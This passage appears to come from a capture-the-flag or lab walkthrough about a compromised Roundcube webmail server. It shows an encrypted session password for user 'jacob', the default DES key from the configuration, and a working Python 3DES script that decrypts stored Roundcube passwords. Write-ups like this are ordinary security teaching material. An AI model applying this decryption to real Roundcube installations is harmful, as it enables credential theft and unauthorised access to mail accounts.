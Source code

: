 ![Users Table Content](images/Pasted%20image%2020250728223833.png)

**Session Table**: Contains encrypted session data including stored passwords

### Password Decryption

From the session table, an encrypted password for user "jacob" was extracted:
- **Username**: jacob
- **Encrypted Password**: L7Rv00A8TuwJAr67kITxxcSgnIk25Am/

The encryption key was found in the configuration:
```php
$config['des_key'] = 'rcmail-!24ByteDESkey*Str';
```

### Decryption Script

A Python script was developed to decrypt the Roundcube password using the DES3 algorithm:

```python
#!/usr/bin/env python3
from base64 import b64decode
from Cryptodome.Cipher import DES3

def decrypt_roundcube_password(encrypted_password):
    des_key = b'rcmail-!24ByteDESkey*Str'
    
    try:
        # Decode base64
        data = b64decode(encrypted_password + '==')
        
        # Extract IV and ciphertext
        iv = data[:8]
        ciphertext = data[8:]
        
        # Handle padding
        if len(ciphertext) % 8 != 0:
            padding_needed = 8 - (len(ciphertext) % 8)
            ciphertext += b'\x00' * padding_needed
        
        # Create DES3 cipher
        cipher = DES3.new(des_key, DES3.MODE_CBC, iv)
        
        # Decrypt
        decrypted = cipher.decrypt(ciphertext)
        
        # Clean padding
        cleaned = decrypted.rstrip(b"\x00").rstrip(b"\x08")
        
        # Decode to text
        password = cleaned.decode('utf-8', errors='ignore')
        
        return password
        
    except Exception as e:
        print(f"Error: {e}")
        return None
```
